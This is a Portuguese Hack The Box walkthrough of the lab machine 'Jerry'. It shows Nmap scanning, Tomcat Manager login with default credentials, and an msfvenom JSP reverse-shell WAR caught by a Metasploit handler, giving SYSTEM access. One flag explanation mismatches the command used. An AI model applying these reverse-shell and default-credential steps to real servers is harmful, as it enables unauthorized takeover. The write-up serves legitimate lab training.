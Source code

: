 # Hack The Box - Máquina: Jerry

![Alt text](Jerry.png)

## Resumo
Embora a máquina Jerry seja uma das mais simples no Hack The Box, ela apresenta uma situação realista, já que o Apache Tomcat é frequentemente encontrado exposto e configurado com credenciais comuns ou fracas. Isso proporciona uma oportunidade de exploração e acesso, tornando a máquina Jerry um ambiente educativo para compreender tais cenários.

## Enumeração

### 1. Escaneamento de Portas

Primeiramente devemos utilizar a ferramenta Nmap para verificar as portas abertas, e os serviços rodando nas mesmas, para isso utilizamos o seguinte comando

<code>nmap -A {IP da maquina}</code>

O comando acima é um dos mais básicos do nmap, utilizamos as seguintes opções?

* **-A** é uma opção que ativa um conjunto abrangente de técnicas de varredura agressiva. Essas técnicas incluem detecção de versão, verificação de scripts, detecção de sistema operacional e rastreamento de rota.

Com o comando acima recebemos o seguinte resultado

<pre><code>PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)</code></pre>

### 2. Enumeração de Serviços

Com este retorno conseguimos as seguintes informações

* Porta 8080 aberta, rodando uma versão desatualizada do Tomcat
* O servidor possivelmente está rodando Microsoft windows server 2012

## Exploração

### 1. Explorando o website
 Conforme detectamos o serviço Tomcat rodando no servidor, vamos verificar o serviço em nosso navegador.

 ![Alt text](tomcat.png)

 Conforme verificado, de fato o servidor está rodando o Tomcat, em uma versão considerada desatualizada.

 ### 2. Acesso inicial
 Ao clicar sobre o botão de 'Manager App' um login de acesso é solicitado pelo site, com alguma pesquisa, conseguimos a informação sobre o login padrão para o serviço, considerando que a instalação do Tomcar em si aparenta estar como a padrão, as chances de alteração da senha padrão são baixas.

| Login | Password |
|-------|----------|
|tomcat | s3cret   |

![Alt text](manager_app.png)

Com acesso ao gerenciamento da aplicação, podemos passar para a próxima fase.

## Exploitation

### Reverse Shell no Tomcat

Para conseguirmos uma shell reversa no servidor, vamos precisar utilizar um arquivo **WAR** ou *Web Application Resource Files*, este tipo de arquivo é um contêiner de arquivo único que armazena todos os arquivos potenciais necessários para uma aplicação web baseada em Java. Ele pode conter Arquivos Java (.jar), Páginas de Servidor Java (.jsp), Servlets Java, classes Java, páginas da web, arquivos CSS, entre outros. 


O Tomcat Manager facilita a implantação de arquivos WAR com apenas alguns cliques, e como esses arquivos podem conter código Java, eles se tornam um ótimo alvo para obter execução dentro do ambiente.

### Criando o Arquivo com o payload.

Como informado acima, iremos utilizar um arquivo WAR para conseguirmos acesso ao servidor, existem várias maneiras de criar o arquivo, porem neste caso vamos utilizar a ferramenta **msfvenom** para este proposito, e vamos receber a conexão utilizando o **Metasploit**.

Para criar o arquivo utilizaremos o seguinte comando:
<pre><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP de sua maquina} LPORT=1337 -f war > shell_tcp_1337.war</pre></code>
Agora vamos entender melhor o comando acima

* <code>msfvenom</code> Este é o comando que faz parte do framework Metasploit e é usado para gerar payloads maliciosos
* <code>-p windows/shell_reverse_tcp</code> Esta parte do comando define o tipo de payload que você deseja gerar. Nesse caso, é um payload de shell reverso para sistemas Windows.
* <code>LHOST={IP de sua máquina}</code> Aqui, você precisa substituir {IP de sua máquina} pelo endereço IP da sua máquina. Isso indica para onde o payload reverso enviará a conexão.
* <code>LPORT=1337</code> Isso define a porta de escuta na qual seu payload reverso estará ouvindo por uma conexão. Neste exemplo, a porta é definida como 1337, mas você pode ajustá-la conforme necessário.
* <code>-f war</code> Esta opção específica o formato de saída que você deseja para a carga útil. No caso, você está escolhendo o formato "war",
* <code>> shell_tcp_1337.war</code> O operador '>' é usado para redirecionar a saída do comando para um arquivo. Aqui, você está redirecionando o retorno gerado para um arquivo chamado "shell_tcp_1337.war".

### Upload e recebendo o shell

Agora que temos o arquivo com o payload, precisamo apenas realizar o upload utilizando o campo de 'WAR file to deploy'

![Alt text](upload.png)
![Alt text](upload2.png)

Agora que realizamos o upload de nosso arquivo, devemos configurar o Metasploit para receber a conexão

Para isso digitamos o seguinte comando

<pre><code>msfconsole -q -x "use multi/handler;set LHOST 10.10.14.128; set LPORT 1337; run"</pre></code>

Então, após a execução do comando, podemos carregar a página com nosso payload, e vamos receber uma conexão reversa como system.

![Alt text](whoami.png)

## Post Exploitation

Neste caso, como recebemos o shell com privilégios altos, não será necessário realizar uma elevação de privilégios, basta buscar pelas flags.

Conseguimos encontrar as duas flags em um único arquivo, no caminho:
<pre><code>C:\Users\Administrator\Desktop\flags</code></pre>

Dentro do arquivo "2 for the price of 1.txt"
